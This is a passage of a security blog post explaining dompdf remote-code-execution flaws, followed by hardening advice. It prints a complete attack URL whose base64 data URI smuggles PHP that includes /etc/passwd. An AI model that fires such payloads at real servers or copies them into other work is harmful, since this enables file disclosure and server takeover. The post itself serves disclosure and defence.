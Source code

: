 In a data URI source this same PHP script content can be written like that (base64 encoding is just a way of rewritting something in ascii-7):

{% highlight html %}
data:application/x-httpd-php;charset=utf-8;base64,PD9waHANCmVjaG8gJ1BIUCBSQ0UgOiAnIC4gcGhwdmVyc2lvbigpOw0KZWNobyAiYnllIjsNCj8+
{% endhighlight %}

With some url encoding (because we'll use that on an url) that is:

{% highlight html %}
data%3Aapplication%2Fx-httpd-php%3Bcharset%3Dutf-8%3Bbase64%2CPD9waHANCmVjaG8gJ1BIUCBSQ0UgOiAnIC4gcGhwdmVyc2lvbigpOw0KZWNobyAiYnllIjsNCj8%2B
{% endhighlight %}

And the final attack is:

{% highlight html %}
http://<target>/<path>/dompdf/dompdf.php?base_path=&options[Attachment]=0&input_file=data%3Aapplication%2Fx-httpd-php%3Bcharset%3Dutf-8%3Bbase64%2CPD9waHANCmluY2x1ZGUgKCcvZXRjL3Bhc3N3ZCcpOw0KZWNobyAiYnllIjsNCj8%2B
{% endhighlight %}

If default settings for `DOMPDF_ENABLE_PHP` and `DOMPDF_ENABLE_REMOTE` are
altered (to true) this attack will successfully run the PHP script and render
the output of this script to a PDF document (which is in fact only an optionnal side-effect).
This Can be used for local or remote
file inclusion, but also to edit or create a php file, run a shell script, etc.
Chances are this exploit would be used to connect your server in a botnet.

## Last words

 * Avoid using `eval()` in your web code
 * Avoid adding demonstrations to your libraries, or ensure that they will not
  run in production
 * Update your dompdf installation. Version 0.7 is a revolution, it may be hard
  to switch to that version, but moving an old 0.6.0 or 0.6.1 version to 0.6.2
  should be straightforward, if it breaks something revert the code and check next
  point.
 * if you use dompdf in a cms, you can safely **remove the `www` subdirectory
 and the `dompdf.php` file** in that library, rename it first if you do not
 believe me, the CMS is quite certainly using the library classes, and not the
 demonstration code and runner.
 * if you enabled the two dangerous settings, then revert it even if it breaks
 something (choose between breaking a features and giving your server to spammers)
 * if you use a modern PHP application, please put PHP libraries outside of the
 web document root.

  [FRENCH]: http://www.makina-corpus.com/blog/metier/2016/securite-web-detail-de-failles-de-securite-dompdf
  [DOMPDF]: https://github.com/dompdf/dompdf
  [CVE2014]: https://www.portcullis-security.com/security-research-and-downloads/security-advisories/cve-2014-2383/
  [CVE1]: http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-5011
  [CVE2]: https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-5012
  [CVE3]: https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-5013
  [RELEASES]: https://github.com/dompdf/dompdf/releases
  [DATAURI]: https://developer.mozilla.org/fr/docs/Web/HTTP/Basics_of_HTTP/Data_URIs